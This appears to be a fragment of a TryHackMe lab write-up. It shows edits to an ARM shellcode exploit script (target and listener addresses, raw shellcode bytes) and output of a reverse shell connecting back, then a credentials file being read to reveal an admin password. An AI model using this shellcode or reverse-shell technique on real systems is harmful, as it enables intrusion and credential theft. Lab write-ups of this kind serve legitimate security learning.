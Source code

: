 ![Assembler](Images/assembler.png)

And here are the parts from the code I modified:

```python
HOST = '10.8.232:221' #Target IP
PORT = 50628 #Target port
LHOST = [10,8,231,222] #MY IP
LPORT = 4444 #PORT you want to use

MY IP Address:
SC +=b'\xdd\x10\xa0\xe3\x01\x14\xa0\xe1\xe8\x10\x81\xe2\x01\x14\xa0\xe1\x08\x10\x81\xe2\x01\x14\xa0\xe1\x08\x10\x81\xe2\x02\x10\x81\xe2\x04\x10\x2d\xe5'   # MODIFIED FOR IP 10.8.232:221

Target IP:
s = remote('10.10.203.91', 50628) # THM Target IP
```

Reverse shell in action:

```shell
─(kali㉿kali)-[~/Desktop/SQ2]
$ python3 armshellcode.py
[*] Shellcode length: 856
[+] Opening connection to 10.10.203.91 on port 50628: Done
[+] Trying to bind to :: on port 4444: Done
[+] Waiting for connections on :::4444: Got connection from ::ffff:10.10.203.91 on port 33156
[*] Switching to interactive mode
$ cat /etc/webs/umconfig.txt
TABLE=users

ROW=0
name=admin
password=Y3tiStarCur!ouspassword=admin
group=administrators
prot=0
disable=0
```
